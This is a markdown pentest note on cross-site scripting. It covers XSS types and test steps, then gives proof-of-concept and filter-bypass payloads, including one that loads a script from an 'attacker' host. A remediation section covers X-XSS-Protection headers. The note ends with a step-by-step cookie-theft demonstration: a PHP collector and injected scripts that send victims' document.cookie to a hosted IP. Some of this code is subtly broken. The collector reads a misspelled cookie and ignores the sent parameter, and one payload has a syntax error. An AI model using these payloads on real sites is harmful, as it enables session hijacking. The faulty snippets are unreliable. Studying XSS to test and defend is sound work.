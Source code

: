 # XSS

## Information
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into trusted website.

XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

OWASP TOP 10: A7-Cross-Site Scripting (XSS)

## Impact
Malicious script can access any cookies, session tokens, or other sensitive information

## Types of XSS
- *Stored XSS (persistent)*
- *Reflected XSS (non-persistent)*
- *DOM Based XSS*

## How to Test (Black Box Testing)
***1. Detect input vectors. For each web page***
- HTTP parameters
- POST data
- Hidden form field values
- Predefined Radio or Selection values

***2. Analyze each input vector to detect potential vulnerabilities***
- (greater than)>
- <(less than) 
- &(ampersand) 
- '(apostrophe or single quote) 
- "(double quote)
- e. g. <script>alert(123)</script>

***3. POC***
```
<script>alert(document.cookie)</script>
<script>alert(document.location)</script>
```

## HTML Filtered Content
- \n (new line) 
- \r (carriage return) 
- \' (apostrophe or single quote) 
- \" (double quote) 
- \\ (backslash) 
- \uXXXX (unicode values)

## Bypass XSS Filters 
Filters are based on a blacklist, they could not block every type of expressions

### e.g. payload’s:
***1. Different Syntax | Encoding***
```
" onfocus="alert(document.cookie)
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
```
***2. Bypassing non-recursive filtering***
```
<scr<script>ipt>alert(document.cookie)</script>
```
***3. Including external script***
```
<script src="http://attacker/xss.js"></script>
http://example/?var=<SRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

   - https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet (XSS Filter Evasion Cheat Sheet)
   - https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt
   - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

## XSS - Remediation     
### Server-Side Validation
- [x] X-XSS-Protection
```
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
```
- ***0***	xss filter disabled
- ***1***	xss filter enabled and sanitized the page if attack detected
- ***1;mode=block***	xss filter enabled and prevented rendering the page if attack detected
- ***1;report=http://example.com/report_URI***	xss filter enabled and reported the violation if attack detected

***Refrence:***
* https://geekflare.com/http-header-implementation/#X-XSS-Protection
* https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection

### Client/Application side Validation
* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet (XSS Prevention Cheat Sheet)
* https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet (DOM based XSS Prevention Cheat Sheet)
* https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks   (Functions to Validate your Data)

## XSS - Demonstration
Retrieve User Cookie Using XSS
1. Create ***steal.php*** file contect with below code.
```
<?php
$cookie=$_COOKIE['PHPSSID'];
$file=fopen('cookie.txt', 'a');
fwrite($file, $cookie . "\n\n");
?>
```
2. Create ***cookie.txt*** file on same directory.
3. Host ***steal.php*** page publicaly which can accessible through internet.
4. Insert Script on Vulnerable Parameter.
```
<script>document.location="http://hostname/steal.php"</script>
e.g:
<script>document.location="http://192.168.88.128/steal.php"</script>

<img src=a onerror=confirm(document.location="http://192.168.88.130/steal.php?cookie=" + document.cookie;)>

```
